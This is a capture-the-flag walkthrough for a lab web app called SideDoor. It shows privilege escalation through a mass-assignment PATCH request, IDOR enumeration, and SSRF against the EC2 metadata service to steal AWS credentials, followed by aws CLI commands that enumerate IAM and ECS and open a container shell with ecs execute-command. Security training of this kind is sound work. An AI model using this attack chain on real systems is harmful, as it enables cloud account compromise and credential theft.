# SideDoor — Full Walkthrough

⚠️ **Spoilers from here on.** This is the complete solution, start to finish.
If you'd rather find your own way through it, close this tab and go back to
the [README](README.md).

Still here? Good. This is the intended path — not the only possible one,
but the one the environment was built around. Three separate bugs chained
together, each one handing you just enough to reach the next.

---

### 1. Get in the door

First, Register an account with a custom username and password and log in. You land on a plain
employee dashboard.




### 2. The profile endpoint trusts you more than it should

Once you navigate to the `Profile` section, and intercept the request (using Burpsuite in my case), the `/api/v1/profile/me/` exposes several fields, one of which is `is_hr_manager`. Edit the request by escalating changing `is_hr_manager: false` to `is_hr_manager: true`

```
PATCH /api/v1/profile/me/ HTTP/1.1
Authorization: Basic <your base64 credentials>
Content-Type: application/json

{
  "is_hr_manager": true
}
```

One step that might trip you up if you're building this request by hand:
add the `Content-Type` header to the modified request is essential. Without this, you'll get a `415 Unsupported Media Type` back instead of your payload being processed. The API won't even
look at the body without it.



Refresh your session and there it is — an **Admin Controls** tab that
wasn't there a minute ago.



### 4. The admin panel has an SSRF hiding in plain sight

We can navigate through different Department IDs. This directly confirms IDOR. Pass this request to the "Intruder" (in Burpsuite). Start a standard sniper attack with a simple payload traversing IDs (100-999). Looking specifically at Dept. ID 447, we get back EC2 instance metadata URL and a key string.



The "Slack Test Webhook" feature under Admin does exactly what it sounds like —
takes a URL, fetches it server-side, shows you what came back. Which is a
problem the moment you realize *where* that server actually lives.

Enter the credentials and hit the "Fire Outbound Test packet". The instance's actual AWS credentials, handed over by its own metadata service because nothing stopped the app from asking on your behalf. From here on, we're on our way to cloud enumeration since we compromised the IAM role "staffsync-app-server-role".




### 5. Put the stolen creds to use

```bash
aws configure set aws_access_key_id "<AccessKeyId>" --profile stolen-role
aws configure set aws_secret_access_key "<SecretAccessKey>" --profile stolen-role
aws configure set aws_session_token "<Token>" --profile stolen-role
```

This should come back as an **assumed-role** identity:

```bash
aws sts get-caller-identity --profile stolen-role
```



### 6. You're in — but you don't know where "in" actually is yet

Here's the part that trips people up: you've got valid AWS credentials now,
but no idea what's running, or what else is out there. It all has to be enumerated from scratch.

For making it easier, you could use cloud enum tools like 

```bash
aws iam get-role --role-name staffsync-app-server-role --profile stolen-role
aws iam list-role-policies --role-name staffsync-app-server-role --profile stolen-role
aws iam list-attached-role-policies --role-name staffsync-app-server-role --profile stolen-role
```




```bash
aws ecs list-clusters --profile stolen-role
aws ecs list-tasks --cluster <cluster-arn> --profile stolen-role
aws ecs describe-tasks --cluster <cluster-arn> --tasks <task-arns> --profile stolen-role
```



That last call is the useful one, it names the containers. You'll see two
tasks: the payroll-app and the flag-holder.

### 7. ECS Execute-Command

This stolen role is scoped to something specific, and there's no clean way to just ask IAM what that something is (the policy text itself isn't readable from here, on purpose). So you find out
the only way available: by trying.

We execute the command agains the flag-holder container, and it gives a shell:

```bash
aws ecs execute-command --cluster <cluster-arn> --task <app-task-id> \
  --container <app-container-name> --interactive --command "/bin/sh" --profile stolen-role
```


Note: You'll need the [Session Manager plugin](https://docs.aws.amazon.com/systems-manager/latest/userguide/session-manager-working-with-install-plugin.html) installed locally for either of these to actually open a session.

### 8. That's the flag

```bash
ls /root
cat /root/flag/flag.txt
```

